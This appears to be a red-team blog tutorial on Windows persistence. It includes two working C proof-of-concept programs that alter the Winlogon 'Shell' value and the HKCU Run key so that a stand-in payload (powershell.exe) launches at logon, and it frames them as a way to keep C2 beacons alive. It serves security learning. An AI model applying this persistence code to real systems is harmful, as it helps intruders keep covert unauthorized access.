


# Malware Development with C - Establishing Persistence

## Introduction

Welcome, fellow cybersecurity enthusiasts! Today, let's embark on a journey into malware development once again, and more specifically - establishing persistence. As ethical hackers, our mission isn't just about breaching defenses; it's about understanding the defender's playbook to strengthen our offenses. 

While establishing persistence is often not needed during engagements (pentesting projects), there are rare cases where it is extremely important. I am aware that there are plenty of open source tools like [SharPersist](https://github.com/mandiant/SharPersist), but I think that it can be valuable to craft our own little POCs. With the ability to write POCs, they can now be customly integrated into C2 frameworks, packing applications, or even custom shellcode runners.

Before diving deeper into this topic, make sure to join my [Discord](https://discord.gg/bgSpdheEgu) where we share experience, knowledge and doing CTFs together.

!!!
If you have further appreciation for my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt)! This way, you help the Red Teaming Army grow, while getting access to private tools such as the ShadowBurn packer.
!!!

## Understanding Persistence 

Picture this: you've successfully breached a target system - kudos! But what's next? That's where persistence comes into play. It's the art of maintaining access covertly, like leaving a hidden key under the doormat for future entry. There are 2 main important aspects of establishing persistence:
- Evasiveness
- Speed

 In order to establish persistence, the payload must be present on the compromised system. This can vary from anything like storing .exe file on hidden local / share path, up to replacing a legitimately looking .dll file with a one with malicious payload inside (DLL Hijacking). This is done because on reboot, all cached memory is deleted, which means that in order to establish proper persistence, the malicious payload should by itself be persistent on the targeted machine. Usually, the targeted endpoints are protected with some form of endpoint protection, which generally mean AV or EDR. I personally have never seen workstation or server without endpoint protection in real engagement. In order to establish persistence, the payload should be enough evasive by itself, otherwise you can imagine what goes next.

It also depends in what context you received your initial access. There are multiple cases in which this might happen, but one of the most known one is via phishing. If this is the case, the speed is extremely important. There are situations where your initial payload is working, but as soon as you touch that C2 console, the runtime detection kills your beacon, especially, if you directly start running risky commands like execute-assembly. In order to not be in that case, it is crucial to establish persistence as soon as your beacons open up! If the initial breach was done from service level exploitation for example, then you would have definitely more time, and also, the service level attacks are by themselves a kind of persistence. If the beacon dies, you can technically exploit the service again. Of course that this will raise more attention than needed, but you got the idea!

I know that there are endless ways of establishing persistence, I cannot say which one of them is the best because there is no "best" method, since the evasiveness may vary between different environments. But let's think about it in a different way - Is it possible to establish persistence right off the bat, with the initial payload itself? Well, YES!

## Some windows internals and theory

### General persistence workflow

Establishing persistence isn't about wreaking havoc; mainly because the havoc itself will help the blue teamers find and kill your persistence payloads. Generally, establishing persistence is about making evasive payload that will trigger new C2 beacon when executed -> then store it somewhere to be as hidden as possible and -> then force the Windows OS to execute it each time some action is performed. 

This action might be rebooting the machine, login from specific user account, starting the screensaver, forcing the sticky keys prompt out or even time based persistence via the [task scheduler](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page). There are endless more ways of forcing Windows OS to execute something simultaneous with something else, and this is usually done via the [registry keys](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users).

### Windows registries? 

At its core, the Windows registry is a centralized database that stores configuration settings and options for the operating system and installed applications. Think of it as a digital library where Windows stores crucial information about hardware, software, user preferences, and system settings. Within this repository, registry keys play a pivotal role - they serve as containers that organize and categorize various settings and values.

Registry keys follow a hierarchical structure, like folders within folders in a file system. At the top level, we have five main branches, known as "hives," each responsible for specific aspects of system configuration:

1. `HKEY_CLASSES_ROOT` (`HKCR`): Contains file type associations and OLE object class information.
2. `HKEY_CURRENT_USER` (`HKCU`): Stores settings specific to the currently logged-in user.
3. `HKEY_LOCAL_MACHINE` (`HKLM`): Holds system-wide settings applicable to all users on the machine.
4. `HKEY_USERS` (`HKU`): Stores profiles for all user accounts on the system.
5. `HKEY_CURRENT_CONFIG` (`HKCC`): Provides a pointer to the current hardware profile being used by the system.

Within each hive, we find a plethora of subkeys, each housing a unique set of configuration settings. These keys may contain values such as strings, integers, binary data, or even references to other resources.

Registry keys play a crucial role in configuring and customizing the Windows operating system. From system startup and device driver settings to user preferences and application configurations, almost every aspect of Windows is governed by registry keys. Modifying these keys allows users, administrators, and applications to tailor the system to their specific needs, or it can simply allow us to establish persistence.

## Establishing Persistence Automatically with C

### Admin Level Persistence

As already mentioned, a lot of Windows configurations are stored inside the registry database. But now here comes the question: `Which key I need to add or modify?` The answer to this question is not trivial as it depends on what persistence method you want to implement. 

In this blog, I want to showcase how to establish persistence via `winlogon`. This means that the only thing that can trigger the payload, is when someone is logging in to the compromised system.

!!!
I did not test this technique over `RDP` protocol, make sure to test it and give me your feedback!
!!!

To achieve this logon persistence, we will need administrative local access first. There is a registry key called `Shell`, which is located at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\`. By default, its value is `explorer.exe`


!!!
Most of the registry keys inside `HKEY_LOCAL_MACHINE` requires administrative privileges to get modified.
!!!

The default value makes complete sense. When the user logs in, we want `explorer.exe` to start, so that the user can now operate with Windows OS via the GUI. If we have the needed access rights, we can simply modify this key, so that on the next user signin, the specified payload will be executed. Just for demonstration purposes, let's use `powershell.exe` as a payload. While it sounds quick and simple, there is one caveat to this technique. We cannot replace or remove `explorer.exe` as it will break the logon process afterwards. 

In order to execute a custom payload alongside with `explorer.exe`, we can simply append comma and then the custom payload. So the final value would look something like: `explorer.exe,powershell.exe`.

Enough theory! The following Win32 APIs can help us to do this programmatically:

[RegOpenKeyExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa) 

```C
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

and [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)

```C
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

These functions allow us to open a registry hive, and modify its values if, of course, we have the appropriate privileges over the system.

I came up with the following POC code, which is already added into the [OffensiveCpp](https://github.com/lsecqt/OffensiveCpp/blob/main/Techniques/Persistence/admin_persistence_winlogon.c) project.

```C
#include <windows.h>
#include <stdio.h>

// This POC executes powershell.exe on system logon
// It requires administrative privileges
// https://youtu.be/VqDY2Tfz6Qw?t=20

int main() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon";
    LPCSTR valueName = "Shell";
    LPCSTR newValue = "explorer.exe,powershell.exe";

    LONG openResult = RegOpenKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, KEY_SET_VALUE, &hKey);
    if (openResult != ERROR_SUCCESS) {
        printf("Error opening registry key. Error code: %d\n", openResult);
        return 1;
    }

    LONG setResult = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)newValue, strlen(newValue) + 1);
    if (setResult != ERROR_SUCCESS) {
        printf("Error setting registry value. Error code: %d\n", setResult);
        RegCloseKey(hKey);
        return 1;
    }

    printf("Registry value changed successfully.\n");

    RegCloseKey(hKey);
    return 0;
}
```

After executing the compiled code, we can now observe that the registry key is modified.



After a simple reboot (or signout / signin) the payload is triggered.


!!!
The payload is executed in Medium integrity level and from the context of the logged in user. It will execute for any user that logs in to the system.
!!!

While this technique is effective, a very important question may arise:

- This is cool but how often I might get admin shell directly? Is it possible to establish persistence in userland?

Well, getting admin access directly is rare, so let's setup some userland persistence now.

### User Level Persistence

Implementing the same technique in userland is impossible, because we cannot modify registry keys inside `HKEY_LOCAL_MACHINE`, however, we can establish persistence using the `HKEY_CURRENT_USER` hive, since the current user can actively influence the settings there. `HKEY_CURRENT_USER` (`HKCU`) is a registry hive in the Windows Registry that stores configuration settings and preferences specific to the currently logged-in user. Unlike `HKEY_LOCAL_MACHINE`, which contains system-wide settings, `HKCU` stores settings that are unique to each user profile. This registry hive is mainly used for user preferences, application settings, desktop customization and more.

Moving on to the persistence landscape, following the same logic as the previous example, there is this registry path: `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.

This path may contain multiple keys. The interesting part is that no matter what is added, if it is a valid path to binary, it will get executed.

!!!
The registry key name does not matter in this scenario.
!!!

Since in this demo we want to add and not modify a key, the [RegCreateKeyExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa) Win32 API needs to be introduced:

```C
LSTATUS RegCreateKeyExA(
  [in]            HKEY                        hKey,
  [in]            LPCSTR                      lpSubKey,
                  DWORD                       Reserved,
  [in, optional]  LPSTR                       lpClass,
  [in]            DWORD                       dwOptions,
  [in]            REGSAM                      samDesired,
  [in, optional]  const LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [out]           PHKEY                       phkResult,
  [out, optional] LPDWORD                     lpdwDisposition
);
```

This API, as the name suggest, allows us to create a registry key inside the specified path. Using the docs, I came up with the following POC to add remote key:

```C
#include <windows.h>
#include <stdio.h>

// This POC executes powershell.exe when the specific user logs in again
// It does not require administrative privileges
// https://youtu.be/VqDY2Tfz6Qw?t=225


int main() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
    LPCSTR valueName = "test";
    LPCSTR valueData = "powershell.exe";

    LONG openResult = RegCreateKeyExA(HKEY_CURRENT_USER, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_SET_VALUE, NULL, &hKey, NULL);
    if (openResult != ERROR_SUCCESS) {
        printf("Error creating/opening registry key. Error code: %d\n", openResult);
        return 1;
    }

    LONG setResult = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)valueData, strlen(valueData) + 1);
    if (setResult != ERROR_SUCCESS) {
        printf("Error setting registry value. Error code: %d\n", setResult);
        RegCloseKey(hKey);
        return 1;
    }

    printf("Registry key added successfully.\n");

    RegCloseKey(hKey);
    return 0;
}
```

In that case the key name is called `test`, and once again, we are executing `powershell.exe`.



!!!
This persistence method works only for the scope of the current user.
!!!

After reboot (or signin) we can confirm that the payload is successfully executed.


This time the payload is executed after a slight delay. I am not really sure why it happens like that, I can only think for now that it is due to initializing the users environment variables as well as the process of loading its desktop. If you have more insights about this, drop your thoughts on the [Red Teaming Army Discord Server](https://discord.gg/bgSpdheEgu). 

!!!
The POC is already present inside the [OffensiveCpp](https://github.com/lsecqt/OffensiveCpp/blob/main/Techniques/Persistence/user_persistence_run.c) repo.
!!!

## Conclusion

In conclusion, this blog post has just scratched the surface of establishing persistence in Windows systems. It is important to understand the Windows Registry deeper, and what key to manipulate for each action. Through the power of C programming, we've uncovered how simple yet powerful techniques can be employed to manipulate registry keys, ensuring that our desired configurations persist across system reboots and updates.

As mentioned above, the evasiveness depends on large scale of factors. From the implant itself to the whole persistence establishment process. This blog does not aim to show you how to bypass an EDR, but rather to lay out some fundamentals about persistence and C programming.

Hope you enjoyed it and learned something new! If that is the case feel free to become my [Patreon](https://www.patreon.com/Lsecqt), by doing so you support my work and also you get access to my private tooling and repos. Feel free to adopt, review and modify the [OffensiveCpp](https://github.com/lsecqt/OffensiveCpp) project.